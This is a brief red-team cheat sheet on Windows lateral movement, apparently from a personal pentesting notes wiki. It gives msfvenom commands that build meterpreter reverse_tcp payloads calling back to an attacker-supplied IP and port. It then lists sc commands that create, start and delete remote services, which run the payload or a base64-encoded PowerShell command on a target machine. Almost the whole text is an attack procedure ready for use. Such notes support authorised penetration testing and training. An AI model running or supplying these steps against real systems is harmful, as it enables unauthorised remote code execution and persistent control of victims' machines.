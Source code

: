 # Living off the Land

Search Tag(s): #lateral-movement #service-control-manager #windows

## 01 - Usage

After we generate a reverse/bind shell refer to the techniques to copy the shell via [[Windows Lateral Movement References|SMB]]

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe-service -o shellsvc.exe

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh-cmd
```

Here's the following syntax

```
C:\> sc \\<IP> create <ServiceSVC> binpath= "c:\path\to\shellsvc.exe"

C:\> sc \\<IP> start <ServiceSVC>

C:\> sc \\<IP> delete <ServiceSVC>
```

## 02 - Use Cases

```
C:\> sc \\<IP> create pwshpayload binpath= "powershell -E <base64_encoded>"

C:\> sc \\<IP> start pwshpayload

C:\> sc \\<IP> delete pwshpayload

C:\> sc \\<IP> create TestMaintenance binpath= "c:\path\to\shellsvc.exe"

C:\> C:\> sc \\<IP> start TestMaintenance

C:\> C:\> sc \\<IP> delete TestMaintenance
```

---
## References

- [Riccardo Ancarani - Red Team Adventures: Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)

- [nv2lt: Windows Lateral Movement with SMB, PsExec and Alternatives](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)